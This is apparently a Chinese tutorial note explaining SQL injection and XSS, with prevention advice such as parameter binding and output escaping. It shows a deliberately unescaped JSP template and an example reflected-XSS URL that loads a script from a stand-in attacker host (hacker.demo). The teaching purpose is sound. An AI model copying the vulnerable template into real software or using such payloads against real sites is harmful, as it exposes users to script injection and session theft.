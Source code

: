 现代黑客攻击的特点是分布式,高流量,深度匿名;由于国外大量"肉鸡"没有登记,所以国外的服务器遭遇DDOS攻击时,无法有效地防御;

所以互联网企业都要建立一套完整的信息安全体系,遵循CIA原则:`保密性(Confidentiality)`,`完整性(Integrity)`,`可用性(Availability)`;

针对现在Web安全而言,有三种安全问题也是围绕三点出发的;

## `SQL注入`

`SQL注入`是注入式攻击中的常见类型.

`SQL注入`攻击时未将代码与数据进行严格的隔离,导致在读取用户数据的时候,错误地把数据作为代码的一部分执行,从而导致一些安全问题.

如何预防?

+ 过滤用户输入参数中的特殊字符,从而降低被SQL注入的风险;
+ 禁止通过字符串拼接的SQL语句,严格使用参数绑定传入的SQL参数;
+ 合理使用数据库访问框架提供的防注入机制.
  + `MyBatis`提供的`#{}`绑定参数,从而防止SQL注入;
  + 慎用`${}`,其相当于使用字符串拼接SQL


## `XSS`

跨站脚本攻击,即`Cross-Site Scripting`,为了不和前端开发中层叠样式表(CSS)的名字冲突,简称为`XSS`;

`XSS`是指黑客通过技术手段,向正常用户请求的HTML页面中插入恶意脚本,从而可以执行任意脚本.
+ `反射型XSS`
+ `存储型XSS`
+ `DOM型XSS`

从技术原理上,后端开发人员,前端开发人员都有可能造成`XSS`漏洞,比如下面的模板文件就可能导致反射型`XSS`:

```
<div>
	<h3>反射型XSS示例</h3>
	<br>用户 : <%= request.getParameter("userName") %>
	<br>系统错误信息 : <%= request.getParameter("errorMessage") %>
</div>
```

上面的代码从HTTP请求中取了`userName`和`errorMessage`两个参数,并直接输出到HTML中用于展示,当黑客构造如下的URL时就出现了反射型XSS,用户浏览器就可以执行黑客的JavaScript脚本;

```
http://xss.demo/self-xss.jsp?userName=XXX<script>alert("XX")</script>&errorMessage=XSS<script src=http://hacker.demo/xss-script.js/>
```

在防范`XSS`上,主要通过对用户输入数据做过滤或者转义.比如Java开发人员可以使用Jsoup框架对用户输入字符串做`XSS`过滤,或者使用框架提供的工具类对用户输入的字符串做HTML转义;